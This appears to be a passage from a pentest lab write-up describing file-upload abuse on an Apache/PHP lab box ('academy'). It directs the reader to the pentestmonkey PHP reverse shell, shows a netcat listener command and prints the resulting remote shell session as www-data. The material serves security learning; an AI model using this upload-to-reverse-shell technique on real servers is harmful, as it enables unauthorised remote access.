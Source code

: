 ![](/md-images/academy-5.png)
<br>
The fact that we can see our duck in the browser means _the webserver is executing the file_, so we know if we upload some code _it will be executed_.

### Reverse Shell

Knowing that this is an Apache server, we can assume that PHP is running the backend. Additionally, we can see that php files are being referenced in the URLs.

PHP _executes on the server_, so whatever PHP is capable of doing, we can leverage to execute a [rev shell](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/TTPs/exploitation/rev-shell.md). An easy PHP shell for us to use is [this one](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) from pentest monkey. Copy and paste the code, change the hostname and port values, and make sure [netcat](https://github.com/TrshPuppy/obsidian-notes/blob/main/cybersecurity/tools/netcat.md) is listening on the port.

```bash
nc -lvnp 44444
listening on [any] 44444 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 51562
Linux academy 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64 GNU/Linux
 16:48:43 up 11:45,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     tty1     -                Thu13   24:46m  0.04s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
$ www-data
```
